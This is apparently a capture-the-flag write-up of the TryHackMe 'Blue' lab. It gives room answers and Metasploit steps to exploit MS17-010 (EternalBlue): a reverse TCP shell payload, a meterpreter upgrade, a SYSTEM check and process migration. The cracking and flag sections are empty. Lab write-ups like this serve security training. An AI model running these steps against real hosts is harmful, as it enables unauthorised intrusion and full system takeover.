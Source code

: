# [Blue](https://tryhackme.com/room/blue)

![Blue](./images/Blue.png)

## Task 1 - Recon

Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused. 

![task1-blue](./images/task1-blue.png)

Art by one of our members, Varg - [THM Profile](https://tryhackme.com/p/Varg) - [Instagram](https://www.instagram.com/varghalladesign/) - [Blue Merch](https://www.redbubble.com/shop/ap/53637482) - [Twitter](https://twitter.com/Vargnaar)

Link to Ice, the sequel to Blue: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

-----------------------------------------


The virtual machine used in this room (Blue) can be downloaded for offline usage from https://darkstar7471.com/resources.html


Enjoy the room! For future rooms and write-ups, follow [@darkstar7471](https://twitter.com/darkstar7471) on Twitter.

### Answer the questions

* Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

	![task1-nmap](./images/task1-nmap.png)

* How many ports are open with a port number under 1000?

	`3`

* What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

	`ms17-010`

## Task 2 - Gain Access

Exploit the machine and gain a foothold.

### Answer the questions

* Start [Metasploit](https://tryhackme.com/module/metasploit)

	![task2-msfconsole](./images/task2-msfconsole.png)

* Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

	`exploit/windows/smb/ms17_010_eternalblue`

	![task2-ms17](./images/task2-ms17.png)

* Show options and set the one required value. What is the name of this value? (All caps for submission)

	`RHOSTS`

	![task2-options](./images/task2-options.png)

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`

* With that done, run the exploit!

	![task2-exploit](./images/task2-exploit.png)

* Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

	![task2-background](./images/task2-background.png)

## Task 3 - Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

### Answer the questions below

* If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

	`post/multi/manage/shell_to_meterpreter`

	![task3-meterpreter](./images/task3-meterpreter.png)

* Select this (use MODULE_PATH). Show options, what option are we required to change?

	`SESSION`

	![task3-options](./images/task3-options.png)

* Set the required option, you may need to list all of the sessions to find your target here. 

	![task3-setup](./images/task3-setup.png)

* Run! If this doesn't work, try completing the exploit from the previous task once more.

	![task3-upgraqde](./images/task3-upgraqde.png)

* Once the meterpreter shell conversion completes, select that session for use.

	![task3-interact](./images/task3-interact.png)

* Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

	![task3-whoami](./images/task3-whoami.png)

* List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

	![task3-ps](./images/task3-ps.png)

* Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

	``

## Task 4 - Cracking



## Task 5 - Find flags!